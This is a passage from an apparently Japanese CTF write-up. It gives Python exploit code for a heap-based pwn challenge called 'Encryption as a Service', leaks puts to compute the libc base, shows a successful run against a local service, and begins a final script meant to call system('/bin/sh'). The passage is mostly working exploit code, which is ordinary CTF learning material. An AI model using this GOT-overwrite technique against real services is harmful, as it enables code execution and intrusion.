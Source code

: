 ```python
payload += p64(elf.got("puts"))
payload += p64(elf.got("puts"))
payload += p64(plt_puts)
payload += p64(plt_puts)
payload += p64(0)

encrypt_message(2, 0x200, "A") # 0
remove_encrypted_message(0)
encrypt_message(3, 0, '') # 0
encrypt_message(3, 0, '') # 1

edit_encrypted_message(0, payload)

edit_encrypted_message(1, '')
addr_puts = u64(sock.recvline().rstrip())
libc_base = addr_puts - libc.symbol("puts")
dump("libc_base = " + hex(libc_base))

sock.interactive()
```

やっとできそうです．
```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:9001

[ptrlib] libc_base = 0x7fd16230c000
[ptrlib]$ Welcome to Encryption as a Service!
 What would you like to do?
1. Encrypt message
2. Remove Encrypted Message
3. View Encrypted Message
4. Edit Encrypted Message
5. Exit
>
```

あとは`puts(puts@got)`の代わりに`system("/bin/sh")`を呼び出すだけの簡単なお仕事．
```python
from ptrlib import *

def encrypt_message(mode, size, message):
    sock.recvuntil(">")
    sock.sendline("1")
    sock.recvuntil(">")
    sock.sendline(str(mode))
    if 1 <= mode <= 2:
        sock.recvuntil(">")
        sock.sendline(str(size))
        sock.recvuntil("message: ")
        sock.sendline(message)
        sock.recvuntil("message is: ")
        return sock.recvline().rstrip()
    else:
        return None

def remove_encrypted_message(index):
    sock.recvuntil(">")
    sock.sendline("2")
    sock.recvuntil("remove: ")
    sock.sendline(str(index))

def view_encrypted_message(index):
    sock.recvuntil(">")
```